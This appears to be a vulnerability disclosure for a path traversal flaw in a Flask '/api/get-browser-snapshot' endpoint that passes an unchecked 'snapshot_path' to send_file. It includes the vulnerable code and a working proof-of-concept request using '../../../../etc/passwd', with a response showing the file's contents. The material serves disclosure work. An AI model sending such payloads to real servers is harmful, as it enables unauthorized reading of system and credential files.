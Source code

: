 # Version
latest(2024.6.26)
# Description
At the `/api/get-browser-snapshot` endpoint, the snapshot_path value is not checked, resulting in path traversal which allow attackers to get any file of the system. 
# Source code
```python
@app.route("/api/get-browser-snapshot", methods=["GET"])
@route_logger(logger)
def browser_snapshot():
    snapshot_path = request.args.get("snapshot_path")
    return send_file(snapshot_path, as_attachment=Tru
```
### PoC
```
GET /api/get-browser-snapshot?snapshot_path=../../../../etc/passwd HTTP/1.1
Host: 10.160.167.54:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: zbx_session=cookie
Upgrade-Insecure-Requests: 1
Priority: u=1
```
response:
```
HTTP/1.1 200 OK
Content-Disposition: attachment; filename=passwd
Content-Type: application/octet-stream
Content-Length: 2505
Last-Modified: Tue, 11 Jun 2024 01:56:47 GMT
Cache-Control: no-cache
ETag: "1718071007.1050704-2505-555683153"
Date: Wed, 26 Jun 2024 08:40:23 GMT
Access-Control-Allow-Origin: http://localhost:3000
Vary: Origin

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
# Impact
Arbitrary file read or RCE
